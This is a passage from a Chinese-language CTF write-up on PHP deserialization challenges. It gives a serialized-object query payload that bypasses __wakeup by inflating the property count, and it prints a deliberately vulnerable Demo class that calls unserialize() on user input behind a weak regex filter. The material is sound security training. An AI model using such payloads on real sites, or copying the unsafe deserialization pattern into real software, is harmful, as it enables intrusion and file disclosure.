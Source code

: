 所以要修改属性值< n >，既把1改为2以上，修改一下，大于1就好了

```
?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```

补充：[序列化与反序列化基本操作](https://blog.csdn.net/lhc1105/article/details/42213937)



### Web_php_unserialize

#### 知识点

- __construct()：当对象创建（new）时会自动调用。但在 unserialize() 时是不会自动调用的。（构造函数）

- __destruct()：当对象被销毁时会自动调用。（析构函数）

- __wakeup()：unserialize() 时会自动调用

```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```



#### 观察

首先它定义了一个Demo类，然后发现初始化改变file值，而且，源码中有这么一段注释：

```
//the secret is in the fl4g.php
```
